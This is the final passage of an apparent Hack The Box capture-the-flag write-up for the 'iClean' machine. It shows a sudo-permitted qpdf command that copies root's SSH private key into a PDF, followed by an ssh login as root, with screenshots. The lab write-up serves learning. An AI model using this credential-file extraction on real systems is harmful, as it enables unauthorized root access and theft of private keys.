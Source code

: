 Let's use the following command to create PDF copy of the root's id_rsa file:

`sudo /usr/bin/qpdf --qpdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-37.png)

Reading the created pdf, we can SSH private key in plain-text:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-38.png)

Save it to the local machine and SSH in as the root:

`ssh -i id_rsa root@capiclean.htb`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-39.png)

## References
- https://jadu101.github.io/Hackthebox%F0%9F%93%A6/Linux%F0%9F%90%A7/HTB-FormulaX
- https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/




